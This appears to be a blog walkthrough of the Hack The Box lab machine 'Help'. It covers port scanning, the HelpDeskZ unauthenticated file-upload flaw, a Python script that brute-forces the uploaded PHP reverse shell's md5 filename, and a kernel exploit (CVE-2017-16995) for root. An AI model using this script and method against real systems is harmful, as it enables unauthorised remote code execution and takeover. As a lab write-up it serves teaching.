 ```yaml
---
title: "Help -- hack the box"
author: Neal
tags: [安全, hack the box, walkthrough, linux, python,HTB]
categories: [htb]
date: "2019-04-22" 
---
```


![EFe80A.png](https://s2.ax1x.com/2019/04/21/EFe80A.png)

## Introduction

Target: 10.10.10.121(OS: Linux)

Kali: 10.10.16.28

To be honest, Help is not a difficult box. But there are some rabbit holes in the box. And in some case, you may come across some very strange situations. May you should step back, find if there is something wrong. For the PrivEsc of root, never give up trying the most basic method.

## Infomation Enumeration

Firstly, gather open ports and services:

```
# Nmap 7.70 scan initiated Sat Apr 20 02:13:56 2019 as: nmap -sC -sV -oA services 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (1.2s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 20 02:14:40 2019 -- 1 IP address (1 host up) scanned in 43.61 seconds
```

The port 80 seems to be an HTTP service. Access to `http://10.10.10.121`, nothing special but just the apache default web page. Try gobuster:

```
gobuster -u http://10.10.10.121 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.tx -t 50
```

We have found an interesting folder called: `support`:

![EFeHtx.png](https://s2.ax1x.com/2019/04/21/EFeHtx.png)

The 80 seems to be help support website. We will dive in  more later.

For the `3000` port, it seems to be an express application. And nothing found for this.

![EFeXcD.png](https://s2.ax1x.com/2019/04/21/EFeXcD.png)

## Exploitation

### http

In the above, we can see `HelpDeskZ` on the web page. It may be a kind of product. Search related exploits, `searchsploit HelpDeskZ`.

![EF0rkt.png](https://s2.ax1x.com/2019/04/21/EF0rkt.png)

There two exploits about `HelpDeskZ`. `Arbitrary File Upload` is interesting, it seems that it can be exploited without valid credentials. The payload can be seen [here](https://www.exploit-db.com/exploits/40300). It's really significant to understand the root cause of the exploit. So know the details of the payload will be beneficial.

The step of exploitation is:

1. Access to `http://10.10.10.121/support/?v=submit_ticket&action=displayForm`
2. Fill out all the fields on the web page, and submit the ticket.
3. Then run the script to exploit.

The script can be exploited, but should take care of some case. I have learned an import lesson from this box: if you stuck in some case for a long time and has not obtained the expected result. You should step back and see if there is anything wrong.

The reason of the exploit is: when submit a ticket, the attachment will be uploaded. And the uploaded file will be named as `md5(filename+filename_time)`. The source code is as [following](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers/submit_ticket_controller.php#L140):

<pre>
if(!isset($error_msg) && $settings['ticket_attachment']==1){
    $uploaddir = UPLOAD_DIR.'tickets/';        
    if($_FILES['attachment']['error'] == 0){
        $ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
        <b>$filename = md5($_FILES['attachment']['name'].time()).".".$ext;</b>
        $fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
        $uploadedfile = $uploaddir.$filename;
        if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
            $show_step2 = true;
            $error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
        }else{
            $fileverification = verifyAttachment($_FILES['attachment']);
            switch($fileverification['msg_code']){
                case '1':
                $show_step2 = true;
                $error_msg = $LANG['INVALID_FILE_EXTENSION'];
                break;
                case '2':
                $show_step2 = true;
                $error_msg = $LANG['FILE_NOT_ALLOWED'];
                break;
                case '3':
                $show_step2 = true;
                $error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
                break;
            }
        }
}    
</pre>

The most important code: `$filename = md5($_FILES['attachment']['name'].time()).".".$ext;`. We can find the rule of the name of the uploaded file. So it will be possible to find the uploaded attachment. And there is another stuff when submitted a reverse shell php file, you will get a hint: `File is not allowed`. However, the attachment has been uploaded. Because it will upload the attachment firstly. And then just give the error information.

![EFrlwj.png](https://s2.ax1x.com/2019/04/21/EFrlwj.png)

<pre>
<b>if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {</b>
    $show_step2 = true;
    $error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
}else{
    $fileverification = verifyAttachment($_FILES['attachment']);
    <b>switch($fileverification['msg_code']){</b>
        case '1':
        $show_step2 = true;
        <b>$error_msg = $LANG['INVALID_FILE_EXTENSION'];</b>
</pre>

Firstly, submit a ticket with the attachment of `a.php(php-reverse-shell.php` and will get error information `File is not allowed`. However, the script has been uploaded actually. 

![EFhf2j.png](https://s2.ax1x.com/2019/04/21/EFhf2j.png)

Then, try to run the script:

```
python exploit.py http://10.10.10.121/support/ a.php
```

In order to decrease the complexity of the md5 hash, the `php-reverse-shell.php` is renamed to `a.php`. However, there are two problems so that I obtain nothing for the whole afternoon. The first problem is the timezone. The uploaded filename depends on the file time. So it is important to keep the same timezone for the local machine and the server. We can find that the server timezone is GMT from the response header of Date. So modify the timezone of the local machine:

```bash
timedatectl set-timezone GMT
```

After modifying the timezone, still have not found anything. It has some problem with the url. Read the source code and you will find the upload directory should be: `UPLOAD_DIR.'tickets/`:

![EFhSUS.png](https://s2.ax1x.com/2019/04/21/EFhSUS.png)

Hence, the url should be `http://10.10.10.121/support/uploads/tickets/`. So run the script:

`python exploit.py http://10.10.10.121/support/uploads/tickets/ a.php`

I have modified the script slightly for my own purpose.

```python
import hashlib
import time
import sys
import requests
print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 1500):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    print "This is the " + str(x) + " time:"
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)
    else:
        print "has tried " + url + ":" + str(response.status_code)

print "Sorry, I did not find anything"
```

Remember to set nc listen to a port in the beginning. After some time, the shell is returned.

![EFhlvR.png](https://s2.ax1x.com/2019/04/21/EFhlvR.png)

## Privilege escalation

In contrast to the user shell, the root shell is extremely simple. But the basic method might be overlooked sometimes. Obtain root shell by kernel exploit is uncommon recently. But it never is insignificant to have a try. Obtain the kernel of the Linux by `uname a`:

`Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

Google for `linux kernel 4.4.0--116`. Congratulations! Find the [payload](https://github.com/SecWiki/linux-kernel-exploits/tree/master/2017/CVE-2017-16995). Just download the payload and compile. After execution, the root shell is obtained.

![EF4Ezd.png](https://s2.ax1x.com/2019/04/21/EF4Ezd.png)

